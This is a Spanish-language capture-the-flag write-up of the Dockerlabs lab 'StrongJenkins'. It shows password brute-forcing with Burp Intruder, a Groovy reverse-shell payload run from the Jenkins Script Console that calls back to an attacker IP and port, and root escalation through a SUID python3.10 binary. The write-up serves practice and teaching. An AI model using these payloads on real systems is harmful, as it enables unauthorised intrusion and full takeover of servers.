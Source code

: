 # Máquina StrongJenkins


Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 22 y 80:

```shell
nmap -sCV -p8080 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 10.0.20
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.20)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos Jetty que es un servidor http, la versión, y vemos un archivo **robots.txt**. Le echamos un vistazo pero no tiene nada interesante.

--------------
## Explotación

Tras aplicar **fuzzing** y no encontrar nada interesante, nos disponemos a aplicar **Fuerza bruta** sobre el panel de login de la web.

![Pasted image 20240418152153](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/7e7f5e03-15a7-4650-bea0-00dd9fe95bae)

Interceptamos una petición de **login** con **burpsuite** y la remitimos al **intruder** con el que realizaremos el ataque. En el apartado de **payloads** cargamos el famoso **rockyou**. Indicaremos la posición del **payload** en la **request** que tramitamos, en este caso, en el valor que se le asigna a "**j_password**", que corresponde al campo de la contraseña.

Y para diferenciar si el login ha sido exitoso o no, he escogido un valor que se devuelve en la propia **url** cuando el login ha sido erróneo. He supuesto que cuando el login sea exitoso, este cambiará o directamente no aparecerá. Añadiremos este campo, como output en las respuestas del **intruder** creando una nueva **regex** en el apartado "**Grep -Extract**" del intruder, y seleccionando el "**loginError**"

![Pasted image 20240417200914](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ea017b5a-761b-4292-9d1a-1cb372427833)

En la siguiente captura podemos observar que una de las líneas, no devuelve el campo "**loginError**". 

![Pasted image 20240417200843](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/b1aaf8ed-55df-49a6-8d8b-b8ac0c2d8905)

Probamos la contraseña, y efectivamente "**rockyou**" es la contraseña correspondiente al usuario **admin** ya que logramos acceder con estas credenciales al panel de administrador.

En el apartado "**Manage Jenkins**", podemos irnos al apartado de "**Script Console**":

![Pasted image 20240418152555](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/4267497d-9c32-4c7b-bbf9-71066ca1b10d)

Donde introduciremos el siguiente **payload** que nos enviará una **reverse shell** a nuestra máquina atacante con **IP** 192.168.1.40 por el **puerto** 443 (para la cual, habrá que ponerse en escucha anteriormente por ejemplo con **netcat** -> "**sudo nc -nlvp 443**"):

```js
String host="192.168.1.40";
int port=443;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Le damos a **Run** y estamos dentro de la máquina !


---------------
### Tratamiento de la tty

-------------

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------
## Escalada de privilegios

Filtramos por binarios con permisos **SUID** para ver si podemos ejecutar algo como **root**.

```shell
find / -perm -4000 2>/dev/null
---------------------------------
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/python3.10
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Vemos **/usr/bin/python3.10**, este es crítico y podemos abusar de él.
Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

Ejecutamos el siguiente comando como **root**:

```shell
/usr/bin/python3.10 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```shell
whoami
---------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina !

